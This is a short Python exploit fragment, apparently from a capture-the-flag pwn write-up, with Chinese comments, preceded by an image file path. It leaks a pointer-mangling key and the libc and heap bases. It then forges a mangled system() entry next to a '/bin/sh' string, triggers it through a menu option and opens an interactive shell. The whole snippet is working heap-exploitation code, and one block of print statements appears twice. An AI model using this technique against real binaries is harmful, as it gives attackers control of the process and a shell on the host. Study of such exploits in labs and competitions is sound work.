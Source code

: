 ```python
add(0,0x68,b"/bin/sh\x00")
res = getData(res)
# 获取key的值
res = res[6]
# 计算出key加密后的地址
manba = remove_high_digits(rol(0x401700^res),16)
addr = remove_high_digits(rol(system_addr^res),16)
print("key:",hex(res))
print("libc_base",hex(base_libc))
print("heap_base",hex(base_heap))
print("system_addr",hex(system_addr))
print("exit_function:",hex(exit_function))
print("addr",hex(addr))

add(0,0x68,p64(4)+p64(addr)+p64(base_heap+0x42420))
ru(b">>> ")
sl(b"5")
print("key:",hex(res))
print("libc_base",hex(base_libc))
print("heap_base",hex(base_heap))
print("system_addr",hex(system_addr))
print("exit_function:",hex(exit_function))
print("addr",hex(addr))
ia()

```

